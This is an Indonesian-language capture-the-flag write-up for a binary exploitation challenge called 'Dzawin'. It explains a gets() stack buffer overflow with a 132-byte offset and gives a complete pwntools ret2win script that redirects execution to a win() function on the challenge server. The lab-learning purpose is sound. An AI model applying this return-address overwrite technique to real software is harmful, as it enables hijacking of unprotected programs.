


# Dzawin

**Kategori:** Binary Exploitation
**Flag:** `scsc26{r3t2wIn_f0r_fUn_4nD_pr0ViT}`

---
## Deskripsi Challenge

Diberikan sebuah file bernama `stack` serta service berikut:
```
nc 43.128.69.211 13005
```

Tidak ada deskripsi tambahan maupun hint eksplisit di teks soal.

---
## Analisis Singkat

### 1. Reconnaissance

Pemeriksaan awal dilakukan untuk memahami jenis file dan proteksi keamanan (mitigasi) yang aktif.


**Observasi Penting:**

- **No Canary:** Tidak ada proteksi stack canary, sehingga _buffer overflow_ bisa langsung menimpa _Return Address_.
    
- **No PIE:** Alamat memori fungsi bersifat statis (tidak berubah saat dijalankan), memudahkan kita melompat ke fungsi `win`.
    
- **NX Enabled**: stack tidak dapat dieksekusi, sehingga eksploit harus berupa **ret2win**, bukan menyisipkan shellcode di stack.

### 2. Decompilation & Logic

Binary didekompilasi menggunakan **Dogbolt** (Ghidra/Hex-Rays backend) untuk melihat _source code_ pendekatan.

**Fungsi `vuln` (Vulnerable):**


**Fungsi `win` (Target):**


Decompile Ghidra menunjukkan dua hal penting: 

(1) fungsi `vuln()` memiliki buffer lokal 128 byte dan memanggil `gets()`, sehingga dapat dioverflow dan menimpa return address dengan offset 132 byte.

(2) fungsi `win()` membuka `flag.txt` dan mencetak isinya, namun tidak pernah dipanggil dari alur normal program. Kombinasi keduanya memungkinkan serangan **ret2win**, yaitu mengarahkan return dari `vuln()` ke `win()` untuk mendapatkan flag.

---

## Proses Penyelesaian

### 1. Identifikasi Vulnerability

Fungsi `vuln()` menggunakan `gets()`. Fungsi ini tidak membatasi jumlah karakter yang dibaca, memungkinkan input pengguna melebihi kapasitas buffer (`128 byte`) dan menimpa data penting di stack.

### 2. Kalkulasi Offset (Padding)

Berdasarkan hasil dekompilasi Ghidra, variabel buffer diberi nama `local_84`.

- Dalam heksadesimal, `0x84` = **132**.
    
- Ini menandakan jarak dari awal buffer hingga _Return Address_ adalah tepat 132 byte.
    
- Verifikasi manual layout stack 32-bit:
    
    `128 byte (Buffer)` + `4 byte (Saved EBP)` = **132 byte**.
    

### 3. Payload Construction

Karena proteksi **No PIE** aktif, kita bisa mengambil alamat fungsi `win` secara statis menggunakan `nm` atau fitur symbol dari `pwntools`.

Skema payload:

`[ Padding 132 Bytes ]` + `[ Address of win() ]`

---
## Exploitation Script

Berikut adalah script penyelesaian menggunakan framework `pwntools`:

Python

``` python
from pwn import *

# 1. Setup Environment & Binary
elf = ELF('./stack')
context.binary = elf  # Set context otomatis (arch, os, endianness)

# 2. Koneksi ke Target
p = remote('43.128.69.211', 13005)

# 3. Gathering Information
offset = 132                 # Kalkulasi: 128 buffer + 4 saved ebp
win_addr = elf.symbols['win'] # Ambil alamat fungsi win secara otomatis

log.info(f"Offset ke EIP : {offset}")
log.info(f"Target Win @  : {hex(win_addr)}")

# 4. Crafting Payload
# Structure: [Padding] + [Return Address Overwrite]
payload = flat({
    offset: win_addr
})

# 5. Sending Payload
p.sendline(payload)

# 6. Interact / Receive Flag
p.interactive()
```
### Output Eksekusi



---
### Flag
```text
scsc26{r3t2wIn_f0r_fUn_4nD_pr0ViT}
```
